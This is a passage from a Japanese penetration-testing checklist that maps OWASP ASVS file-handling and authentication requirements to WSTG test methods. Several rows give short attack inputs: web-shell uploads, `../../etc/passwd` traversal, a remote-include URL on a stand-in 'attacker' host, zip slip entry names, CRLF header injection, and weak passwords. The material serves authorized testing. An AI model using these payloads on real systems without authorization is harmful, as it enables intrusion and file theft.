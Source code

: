 | V5.3.1 | L1 | 公開領域のアップロード/生成ファイルを実行不可に | 対応可 | Webルート配下の実行可否/拡張子マップ確認 | [WSTG-CONF-03](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/03-Test_File_Extensions_Handling_for_Sensitive_Information)/[PortSwigger WSA](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)/[PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/Upload%20Insecure%20Files/)/[CWE-434](https://cwe.mitre.org/data/definitions/434.html) | `.php/.jsp` をアップロードして直参照で実行可否を確認 | 実行される/ソース非表示で処理されるなら実行不可設定不備として検出 |
| V5.3.2 | L1 | パス生成は内部ID等を使用し、ユーザ入力は厳格検証 | 対応可 | パストラバーサル/LFI/RFI/SSRF試験 | [WSTG-ATHZ-01](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include)/[PortSwigger WSA](https://portswigger.net/web-security/file-path-traversal)/[PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/Directory%20Traversal/)/[CWE-22](https://cwe.mitre.org/data/definitions/22.html) | `file=../../etc/passwd` や `file=http://attacker/evil.txt` などで参照/包含を狙う | 目的外ファイルの読取/包含が可能・パス正規化/許可リスト不備が確認できれば検出 |
| V5.3.3 | L3 | 展開処理でユーザ提供のパス情報を無視（zip slip防止） | 対応可 | `../`含むエントリの展開結果を検証 | [WSTG-BUSL-09](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/09-Test_Upload_of_Malicious_Files)/[PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/Zip%20Slip/)/[Android Developers](https://developer.android.com/privacy-and-security/risks/zip-path-traversal)/[CWE-22](https://cwe.mitre.org/data/definitions/22.html) | `../../webroot/app.php` 等のエントリ名を持つzipで展開先外への書込み（zip slip） | 展開時にベースディレクトリ外へファイル生成/上書きできれば検出 |

---

## V5.4 ファイルダウンロード

| 章/要件ID | レベル | 要点 | 対応可否 | WebPTでの扱い | WSTG | 具体的な攻撃例 | 精査方法 |
| :---: | :---: | :--- | :---: | :--- | :---: | :--- | :--- |
| V5.4.1 | L2 | 応答の Content-Disposition でサーバ側ファイル名を明示 | 対応可 | URL/JSON指定名を無視しヘッダ名が優先か確認 | [WSTG-CONF-14](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/14-Test_Other_HTTP_Security_Header_Misconfigurations)/[MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Disposition)/[RFC6266](https://www.rfc-editor.org/rfc/rfc6266) | ダウンロード時、アプリ提供名に依存させて任意の拡張子/実行形式を誘導 | 一律に `Content-Disposition: attachment; filename=...` が設定されず、拡張子や挙動が不定なら検出 |
| V5.4.2 | L2 | 提供ファイル名をエンコード/サニタイズ（RFC6266遵守） | 対応可 | 非ASCII/制御文字混入時の挙動確認 | [WSTG-INPV-15](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/15-Testing_for_HTTP_Splitting_Smuggling)/[PortSwigger WSA](https://portswigger.net/kb/issues/00200200_http-response-header-injection)/[CWE-113](https://cwe.mitre.org/data/definitions/113.html)/[RFC6266](https://www.rfc-editor.org/rfc/rfc6266) | `filename="a.csv"\r\nX-Test: 1` 等でCRLF注入/ヘッダ分割を試行 | CRLF混入でヘッダが増殖/改変される、あるいは応答分割が起きれば検出 |
| V5.4.3 | L2 | 信頼できない取得元のファイルをAVスキャン | 範囲外 | スキャン有無は運用/設計確認 | - | - | - |

# V6 認証

## V6.1 認証ドキュメント

| 章/要件ID | レベル | 要点 | 対応可否 | WebPTでの扱い | WSTG | 具体的な攻撃例 | 精査方法 |
| :---: | :---: | :--- | :---: | :--- | :--- | :--- | :--- |
| V6.1.1 | L1 | 認証攻撃対策（レート制限/自動化防止/応答方針）の文書化 | 範囲外 | 文書/設定の提示依頼・ヒアリング | - | - | - |
| V6.1.2 | L2 | コンテキスト固有NGワードのリスト化（パスワード禁止語） | 範囲外 | リスト有無の確認 | - | - | - |
| V6.1.3 | L2 | 複数経路の統一セキュリティ制御・強度を文書化 | 範囲外 | すべてのログイン経路を洗い出し | - | - | - |

---

## V6.2 パスワードセキュリティ

| 章/要件ID | レベル | 要点 | 対応可否 | WebPTでの扱い | WSTG | 具体的な攻撃例 | 精査方法 |
| :---: | :---: | :--- | :---: | :--- | :--- | :--- | :--- |
| V6.2.1 | L1 | 最低8桁（推奨15桁） | 対応可 | フロント/サーバの最小長検証 | [WSTG-ATHN-07](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/04-Authentication_Testing/07-Testing_for_Weak_Password_Policy)/[PortSwigger WSA](https://portswigger.net/web-security/authentication/password-based)/[CWE-521](https://cwe.mitre.org/data/definitions/521.html)/[NIST 800-63B §5.1.1.2](https://pages.nist.gov/800-63-3/sp800-63b.html#memsecret) | 7文字以下や極端に短いPWを受理させる | 変更/登録フローで境界値(7/8/15)を試行し許容可否を確認 |
| V6.2.2 | L1 | ユーザが任意にパスワード変更可 | 対応可 | 変更フローの有無確認 | [WSTG-ATHN-09](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/04-Authentication_Testing/09-Testing_for_Weak_Password_Change_or_Reset_Functionalities)/[PortSwigger WSA](https://portswigger.net/web-security/authentication/other-mechanisms)/[CWE-640](https://cwe.mitre.org/data/definitions/640.html) | 変更UI不備により強制変更不可の状態 | アカウントでログイン後、自己変更フローの有無・正当性(本人認証)を確認 |
| V6.2.3 | L1 | 変更時に現行PWと新PWを要求 | 対応可 | 現行PW省略不可を確認 | [WSTG-ATHN-09](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/04-Authentication_Testing/09-Testing_for_Weak_Password_Change_or_Reset_Functionalities)/[PortSwigger WSA](https://portswigger.net/web-security/authentication/other-mechanisms)/[CWE-620](https://cwe.mitre.org/data/definitions/620.html) | 現行PW不要の変更エンドポイントにCSRFでパスワード差し替え | 現行PW未入力や他人セッションで変更が成功しないことを確認 |
| V6.2.4 | L1 | 上位弱PWリスト（≥3000）照合 | 対応可 | 典型弱PWの拒否確認 | [WSTG-ATHN-07](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/04-Authentication_Testing/07-Testing_for_Weak_Password_Policy)/[PortSwigger WSA](https://portswigger.net/web-security/authentication/password-based)/[CWE-521](https://cwe.mitre.org/data/definitions/521.html)/[NIST 800-63B §5.1.1.2](https://pages.nist.gov/800-63-3/sp800-63b.html#memsecret) | 「Password123!」「12345678」等の一般的弱PWが通る | 代表弱PWを登録/変更で試行し拒否されるか確認 |